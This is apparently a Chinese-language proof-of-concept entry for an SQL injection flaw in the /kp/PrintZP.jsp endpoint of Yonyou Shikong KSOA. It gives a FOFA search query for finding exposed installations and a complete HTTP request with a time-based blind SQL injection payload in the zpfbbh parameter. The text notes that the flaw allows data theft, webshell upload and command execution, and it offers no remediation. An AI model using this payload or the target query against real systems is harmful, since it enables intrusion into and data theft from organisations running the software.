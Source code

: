 # 用友时空KSOA系统接口PrintZP.jsp存在SQL注入漏洞

用友时空KSOA接口 `/kp/PrintZP.jsp` 接口存在SQL注入漏洞，黑客可以利用该漏洞执行任意SQL语句，如查询数据、下载数据、写入webshell、执行系统命令以及绕过登录限制等。

## fofa

```yaml
app="用友-时空KSOA"
```

## poc

```yaml
GET /kp/PrintZP.jsp?zpfbbh=1%27+IF(LEN(db_name())>4)+WAITFOR+DELAY+%270:0:2%27+--+ HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2227.0 Safari/537.36
Connection: close
```



